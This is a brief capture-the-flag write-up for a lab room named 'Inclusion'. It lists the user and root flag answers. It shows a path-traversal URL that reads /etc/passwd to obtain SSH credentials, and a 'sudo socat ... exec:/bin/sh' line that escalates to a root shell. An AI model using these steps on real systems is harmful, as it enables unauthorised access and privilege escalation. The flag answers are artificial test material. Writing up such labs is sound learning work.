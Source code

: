 # Inclusion
##### Question 1: User flag
Answer
```bash
60989655118397345799
```

##### Question 2: root flag
Answer
```bash
42964104845495153909
```

- - - - - - - - - - - - - - - - - - - - - - - - - 
```php
http://10.10.165.203/article?name=./../../../etc/passwd
this gives you creds to login as falconfeast to ssh
```

```bash
priv esc

sudo socat stdin exec:/bin/sh

```